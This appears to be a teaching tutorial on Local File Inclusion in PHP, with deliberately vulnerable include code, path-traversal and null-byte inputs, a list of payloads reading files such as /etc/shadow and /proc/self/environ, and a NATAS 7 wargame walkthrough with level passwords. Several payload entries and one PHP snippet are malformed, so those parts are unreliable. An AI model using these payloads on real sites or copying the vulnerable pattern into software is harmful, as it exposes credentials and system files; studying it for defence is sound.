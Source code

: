 # Local File Inclusion

 > Local File Inclusion (also known as LFI) allows an attacker to include files in server-side through the web browser. File inclusions are part of every advanced server-side scripting language on the web.LFI is commonly found to affect web applications that rely on a scripting runtime. This occurs mainly due to a bad input validation mechanism, wherein the user’s input is passed to the file include commands without proper validation.

### Local file inclusion in PHP:

Consider an example as follows where we can apply this attack.
http://victim_site/abc.php?file=userinput.txt
The value of “file” parameter is taken into the following PHP code, and the file is included:
```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("pages/$file");
   }
?>
```
An attacker may give malicious input for the "file" parameter which may give unauthorized files in that directory, he can also change the directories by using characters like "../".He can access the user credentials by giving input as "../../../../etc/passwd".In some cases where the file extension is added by default, we can avoid it by adding null byte terminator " %00".Any character after this special character will be ignored.

Suppose that the input given is taken by the following code and the default extension being set is “.php”.
```php
<?php
“include/”.include($_GET[‘testfile’].”.php”);
?>
```

by giving file=../../../../etc/passwd%00 we can access the file by passing the ".php" extension.

An attacker can also download files by changing the file names. For example
<br>URL: example/?download=broucher.pdf
</br>The attacker may change the broucher.pdf to any other file such as passwords.txt,users.txt etc.

## Impact
A successful LFI may result in compromise of the system, data leakage etc. The attacker can read, write, download files and can also run arbitrary codes with privileges of the web server.

## Explore it yourself
Make a PHP file with the code given above and explore different possibilities of the vulnerability.
### Somepayloads :
- ../../../../etc/passwd/etc/issue
- ../../../../etc/passwd
- ../../../../etc/passwd/etc/shadow
- ../../../../etc/passwd/etc/group
- ../../../../etc/passwd/etc/hosts
- ../../../../etc/passwd/etc/motd
- ../../../../etc/passwd/etc/mysql/my.cnf
- ../../../../proc/self/environ
- ../../../../proc/version
- ../../../../proc/cmdline
- ../../../../proc/sched_debug
- ../../../../proc/mounts
- ../../../../proc/net/arp
- ../../../../proc/net/route
- ../../../../proc/net/tcp
- ../../../../proc/net/udp

# Let's try a challenge  
 NATAS 7 :
  - USERNAME : natas7
  - PASSWORD : 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
  ![natas7](natas7.1.png)

The site is very simple only with two buttons, but once when you click on Home or About the URL changes as follows :

  ![natas7](natas7.2.png)</br>
  ![natas7](natas7.3.png)
 
 It looks like the PHP file is including the file given as page, when we check the source code we get the hint as  
 hint: password for webuser natas8 is in /etc/natas_webpass/</br></br>
  ![natas7](natas7.4.png)
  
  So, let's try to include that file in the URL 
 URL : index.php?page=/etc/natas_webpass/natas8
On including this file we get the password for the next level on the screen </br></br>
password : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</br></br>
![natas7](natas7.5.png)
</br></br>
This is a basic example of Local file inclusion vulnerability.


